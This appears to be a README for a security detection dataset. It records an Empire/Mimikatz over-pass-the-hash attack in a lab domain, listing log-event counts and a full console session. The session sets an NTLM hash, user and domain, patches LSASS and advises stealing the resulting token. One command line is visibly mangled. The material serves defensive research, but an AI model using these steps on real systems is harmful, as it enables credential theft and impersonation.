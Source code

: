 
# Empire Mimikatz Over-Pass-The-Hash

When sekurlsa::pth is used to over-pass-the-hash, Mimikatz first creates a new logon type 9 process with dummy credentials - this creates a new "sacrificial" logon session that doesn't interact with the current logon session. It then opens the LSASS process with the ability to write to process memory, and the supplied hash/key is then patched into the appropriate section for the associated logon session (in this case, the "sacrificial" logon session that was started). This causes the normal Kerberos authentication process to kick off as normal as if the user had normally logged on, turning the supplied hash into a fully-fledged TGT.

## Technique(s) ID

T1097

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_mimikatz_opth.tar.gz](./empire_mimikatz_opth.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19131123

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |            2093 |
| Windows PowerShell                       | Provider Lifecycle                                     |               8 |
| Windows PowerShell                       | Engine Lifecycle                                       |               1 |
| Security                                 | Filtering Platform Connection                          |             286 |
| Security                                 | Token Right Adjusted Events                            |              96 |
| Security                                 | User Account Management                                |              23 |
| Security                                 | Sensitive Privilege Use                                |              12 |
| Security                                 | Detailed File Share                                    |              10 |
| Security                                 | Group Membership                                       |              10 |
| Security                                 | Logon                                                  |              10 |
| Security                                 | Special Logon                                          |              10 |
| Security                                 | Logoff                                                 |               9 |
| Security                                 | Process Creation                                       |               6 |
| Security                                 | Process Termination                                    |               3 |
| Security                                 | Authorization Policy Change                            |               1 |
| Security                                 | File Share                                             |               1 |
| Security                                 | Kerberos Service Ticket Operations                     |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Security System Extension                              |               1 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             265 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             221 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |             137 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |              85 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              26 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              16 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |              14 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              11 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               7 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               2 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |            2051 |

## Empire Activity

```
(Empire: 8BLV6USC) > usemodule credentials/mimikatz/pth*
(Empire: powershell/credentials/mimikatz/pth) > info

              Name: Invoke-Mimikatz PTH
            Module: powershell/credentials/mimikatz/pth
        NeedsAdmin: True
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: True
   OutputExtension: None

Authors:
  @JosephBialek
  @gentilkiwi

Description:
  Runs PowerSploit's Invoke-Mimikatz function to execute
  sekurlsa::pth to create a new process. with a specific
  user's hash. Use credentials/tokens to steal the token
  afterwards.

Comments:
  http://clymb3r.wordpress.com/ http://blog.gentilkiwi.com
  http://blog.cobaltstrike.com/2015/05/21/how-to-pass-the-
  hash-with-mimikatz/

Options:

  Name   Required    Value                     Description
  ----   --------    -------                   -----------
  CredID False                                 CredID from the store to use for ticket 
                                               creation.                               
  domain False                                 The fully qualified domain name.        
  ntlm   False                                 The NTLM hash to use.                   
  user   False                                 Username to impersonate.                
  Agent  True        8BLV6USC                  Agent to run module on.                 

4f81f8c89a2a384f4a68credentials/mimikatz/pth) > set ntlm b415baa073a1 
(Empire: powershell/credentials/mimikatz/pth) > set user Mmidge
(Empire: powershell/credentials/mimikatz/pth) > set domain shire.com
(Empire: powershell/credentials/mimikatz/pth) > execute
[*] Tasked 8BLV6USC to run TASK_CMD_JOB
[*] Agent 8BLV6USC tasked with task ID 3
[*] Tasked agent 8BLV6USC to run module powershell/credentials/mimikatz/pth
(Empire: powershell/credentials/mimikatz/pth) > Job started: 6DH2RP
Hostname: IT001.shire.com / S-1-5-21-2511471446-1103646877-3980648787

  .#####.   mimikatz 2.1.1 (x64) #17763 Feb 23 2019 12:03:02
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::pth /user:Mmidge /domain:shire.com /ntlm:b415baa073a14f81f8c89a2a384f4a68
user	: Mmidge
domain	: shire.com
program	: cmd.exe
impers.	: no
NTLM	: b415baa073a14f81f8c89a2a384f4a68
  |  PID  7920
  |  TID  8308
  |  LSA Process is now R/W
  |  LUID 0 ; 85924706 (00000000:051f1b62)
  \_ msv1_0   - data copy @ 000001BD859AEBA0 : OK !
  \_ kerberos - data copy @ 000001BD85999068
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000001BD85902A78 (32) -> null


Use credentials/token to steal the token of the created PID.


(Empire: powershell/credentials/mimikatz/pth) >
```
